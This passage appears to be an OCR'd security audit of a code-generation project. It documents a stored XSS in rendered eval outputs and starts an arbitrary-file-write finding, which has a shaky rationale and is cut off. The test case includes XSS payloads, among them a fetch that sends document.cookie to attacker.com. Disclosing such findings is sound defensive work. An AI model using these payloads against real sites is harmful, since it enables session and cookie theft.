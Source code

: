         2.  **`backend/evals/runner.py`:**
            *    The `run_image_evals` function takes a stack and model and input files.
            *   It generates code for all the png files in the directory.
            *   The results are saved in HTML format to a subfolder of `backend/evals_data/outputs`.

        3. **`backend/main.py`**
            * The `evals` routes are included in the app.

        4.  **`backend/routes/evals.py`:**
            *   The `/evals` route reads and displays the generated HTML files.  It does not perform any sanitization of the HTML content.

        The vulnerability arises because the `alt` attribute, taken directly from potentially attacker-controlled input, is embedded into the HTML without any sanitization or encoding.

    *   **Security Test Case:**

        1.  **Create a Malicious Image:** Create a PNG image (e.g., `malicious.png`) with embedded metadata or use a tool that can create an image with a specific `alt` text. The alt text should include a simple XSS payload:
            ```
            " onload="alert('XSS')"
            ```
            Or a more complex payload:
             ```
            " onload="fetch('http://attacker.com/?cookie='+document.cookie)"
            ```
            Where `http://attacker.com` is a server controlled by the attacker.
        2.  **Place the Image:**  Place the `malicious.png` image in the `backend/evals_data/inputs` directory.
        3.  **Run Evals:** Execute `backend/run_evals.py` with the appropriate `STACK` and `MODEL` values to generate the output:
            ```bash
            OPENAI_API_KEY=sk-... STACK=html_tailwind MODEL=gpt-4-vision-preview python backend/run_evals.py
            ```
        4.  **Inspect the Output:** Examine the generated HTML file in `backend/evals_data/outputs`. You should find the injected JavaScript within an `<img>` tag's `alt` attribute.  The generated filename will be something like `malicious_0.html`. Example:
            ```html
            <img src="..." alt="" onload="alert('XSS')" width="100" height="100">
            ```
        5.  **Trigger the XSS:** Open `http://localhost:5173/evals` in a browser.  Select the appropriate evaluation run to view the generated HTML files. Find the generated output file that corresponds to your malicious image. You can use browser developer tools to inspect network requests and see if the JavaScript payload in the `alt` attribute is executed by observing the alert box or a request made to the attacker's server.

2.  **Vulnerability Name:** Arbitrary File Write

    *   **Description:** The `DebugFileWriter.py` class, used for debugging, writes files to a directory specified by the `DEBUG_DIR` environment variable.  The filename is provided as an argument to the `write_to_file` method.  If an attacker can control the `filename` argument, they could potentially write arbitrary files to the filesystem, leading to code execution or denial of service. The filename is currently based on a timestamp, but the vulnerability lies in the fact that the *content* and *structure* of the debug output are derived from the model's response, which can be influenced by a malicious input image or prompt.

